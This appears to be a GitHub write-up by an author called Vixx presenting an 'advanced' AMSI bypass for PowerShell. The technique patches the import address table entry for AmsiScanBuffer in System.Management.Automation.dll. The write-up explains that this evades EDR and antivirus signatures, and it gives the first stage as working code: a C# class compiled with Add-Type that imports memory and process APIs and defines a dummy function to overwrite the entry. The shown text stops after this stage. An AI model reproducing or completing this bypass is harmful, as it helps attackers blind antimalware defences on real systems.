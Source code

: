 **[New Technique] AMSI BYPASS - CLR Patching**

***Author: Vixx***
***Level: Advanced***

Most of the Amsi bypasses out there, is about patching `Amsi.dll`.

In Powershell, `AmsiScanBuffer` routine in `Amsi.dll` is called by the Common Language Runtime (CLR) in a routine called `ScanContent` inside `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll`

Running in your powershell `[PSObject].Assembly.Location` will expose the location of the dll for you to reverse it using `dnsspy`.

![ScanContent](ScanContent.png)

So one of the public bypasses out there is called `CLR Hooking` which involve changing the protection of `ScanContent` by invoking `VirtualProtect` and overwriting it with a hook that just return true.

but it is already heavely signatured and involve running `VirtualProtect` which is not good against EDR's and AV's.

What I am going to show today is in interesting technique which is about patching the IAT entry in `System.Management.Automation.dll` containing the `AmsiScanBuffer` Address that is actually fetched and called by `ScanContent`.

we will start by this piece of code which will load and import the required api's for us in c# and compile it in powershell.

the `dummy` function will be used later on to overwrite the Import Address Table (IAT) Entry.

```
$APIs = @"
using System;
using System.ComponentModel;
using System.Management.Automation;
using System.Reflection;
using System.Runtime.CompilerServices;
using System.Runtime.InteropServices;
using System.Text;

public class APIs {
    [DllImport("kernel32.dll")]
    public static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, UInt32 nSize, ref UInt32 lpNumberOfBytesRead);

    [DllImport("kernel32.dll")]
    public static extern IntPtr GetCurrentProcess();

    [DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
    [DllImport("kernel32.dll", CharSet=CharSet.Auto)]
    public static extern IntPtr GetModuleHandle([MarshalAs(UnmanagedType.LPWStr)] string lpModuleName);

    [MethodImpl(MethodImplOptions.NoOptimization | MethodImplOptions.NoInlining)]
    public static int Dummy() {
        return 1;
    }
}
"@

Add-Type $APIs
```
